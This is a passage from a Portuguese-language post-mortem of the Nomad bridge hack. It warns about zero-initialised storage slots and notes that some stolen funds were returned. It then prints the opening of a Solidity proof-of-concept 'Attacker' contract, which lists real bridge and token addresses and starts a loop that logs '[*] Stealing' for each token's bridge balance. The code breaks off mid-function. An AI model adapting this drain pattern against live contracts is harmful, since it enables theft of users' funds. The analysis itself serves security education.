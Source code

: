 ## Conclusão

atento aos valores padrão dos slots de armazenamento, que são inicializados como zero. Especialmente ao lidar com mapeamentos, é importante definir testes unitários para evitar possíveis perigos relacionados a valores comuns que podem levar a vulnerabilidades.

Vale ressaltar que algumas contas envolvidas em ataques de imitação devolveram os fundos ao projeto Nomad, e o projeto está planejando [relançar](https://medium.com/nomad-xyz-blog/nomad-bridge-relaunch-guide-3a4ef6624f90) e devolver os ativos aos usuários afetados. Se você possui ativos perdidos no ataque à Nomad, por favor, devolva-os para a [carteira de recuperação da Nomad](https://etherscan.io/address/0x94a84433101a10aeda762968f6995c574d1bf154).

Como mencionado anteriormente, este ataque foi muito mais simples do que parece e é possível roubar todos os fundos em uma única transação. Abaixo está o código completo da PoC (incluindo alguns logs do Foundry):

*[Código completo da PoC](https://gist.githubusercontent.com/gists-immunefi/2bdffe6f9683c9b3ab810e1fb7fe4aff/raw/df16e8103c6c3b38d412e0320cda37da9a5a9e7c/Nomad%20Hack%20Analysis%205.sol)*
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;
 
import "@openzeppelin/token/ERC20/ERC20.sol";
import "forge-std/console.sol";
 
interface IReplica {
   function process(bytes memory _message) external returns (bool _success);
}
 
contract Attacker {
   address constant REPLICA = 0x5D94309E5a0090b165FA4181519701637B6DAEBA;
   address constant BRIDGE_ROUTER = 0xD3dfD3eDe74E0DCEBC1AA685e151332857efCe2d;
   address constant ERC20_BRIDGE = 0x88A69B4E698A4B090DF6CF5Bd7B2D47325Ad30A3;
  
   // Nomad domain IDs
   uint32 constant ETHEREUM = 0x657468;   // "eth"
   uint32 constant MOONBEAM = 0x6265616d; // "beam"
 
   // tokens
   address [] public tokens = [
       0x2260FAC5E5542a773Aa44fBCfeDf7C193bc2C599, // WBTC
       0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2, // WETH
       0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48, // USDC
       0xdAC17F958D2ee523a2206206994597C13D831ec7, // USDT
       0x6B175474E89094C44Da98b954EedeAC495271d0F, // DAI
       0x3432B6A60D23Ca0dFCa7761B7ab56459D9C964D0, // FRAX
       0xD417144312DbF50465b1C641d016962017Ef6240  // CQT
   ];
 
   function attack() external {
       for (uint i = 0; i < tokens.length; i++) {
           address token = tokens[i];
           uint256 amount_bridge = ERC20(token).balanceOf(ERC20_BRIDGE);
 
           console.log(
               "[*] Stealing",
               amount_bridge / 10**ERC20(token).decimals(),
               ERC20(token).symbol()
           );
           console.log(
               "    Attacker balance before:",
               ERC20(token).balanceOf(msg.sender)
           );
 
```